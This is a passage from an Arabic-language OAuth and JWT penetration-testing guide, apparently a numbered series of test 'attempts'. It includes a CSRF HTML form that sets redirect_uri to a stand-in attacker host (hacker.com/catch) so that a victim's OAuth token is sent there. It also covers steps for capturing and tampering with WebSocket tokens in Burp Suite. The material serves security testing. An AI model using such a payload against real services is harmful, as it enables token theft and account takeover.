 #### 1. راقب الـ redirect URL:
```
https://app.com/callback#access_token=abc123xyz
```

## 🛠️ المحاولة #24: استخدام CSRF لإعادة توجيه المستخدم

### 🔍 الهدف:
إحداث OAuth Redirection Attack.

### 📌 الخطوات:

#### 1. صنع نموذج:
```html
<form action="https://oauth-provider.com/authorize" method="get">
  <input type="hidden" name="redirect_uri" value="https://hacker.com/catch">
</form>
```

#### 2. إقناع المستخدم بإرسال الطلب.



---

### 🔹 10. **JWT Tokens في WebSockets**
بعض التطبيقات تستخدم WebSockets للمحادثة الحية وتُرسل التوكنات بها.

## 🛠️ المحاولة #25: التقاط WebSocket Traffic

### 🔍 الهدف:
اكتشاف توكنات في WebSockets.

### 📌 الخطوات:

#### 1. في Burp Suite، اذهب إلى:
> Proxy > WebSockets history

#### 2. ابحث عن JSON:
```json
{"token": "abc123"}
```

---

## 🛠️ المحاولة #26: تعديل توكن WebSocket

### 🔍 الهدف:
اختبار إن كان السيرفر يتقبل توكن معدل.
